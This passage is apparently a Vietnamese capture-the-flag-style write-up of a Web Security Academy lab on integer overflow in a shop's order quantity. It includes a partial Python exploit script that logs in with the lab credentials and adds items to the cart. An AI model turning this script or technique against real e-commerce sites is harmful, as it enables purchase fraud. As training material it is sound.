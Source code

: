 với hướng khác mình có thể nhập 1 số nguyên dương lớn để tràn số nguyên và nó sẽ quay trở về giá trị âm nhưng khi nhập số lượng 10^9^ ![image](https://hackmd.io/_uploads/rkLtgCfnT.png)

đơn hàng vẫn được chấp nhận nhưng khi sang 10^10^ đã xảy ra thông báo lỗi có thể cách này đã bị chặn

![image](https://hackmd.io/_uploads/BJQ0x0Mha.png)

mình đã viết lại script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0ad700f904cafb078179523400f10052.web-security-academy.net'

response = requests.get(url + '/login')

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']
session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session,
}

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = requests.post(
    url + '/login',
    cookies=cookies,
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session,
}

data = {
    'productId': '1',
    'redir': 'PRODUCT',
    'quantity': '1'
}

response = requests.post(
    url + '/cart',
    cookies=cookies,
    data=data,
    verify=False,
    allow_redirects=False
)

```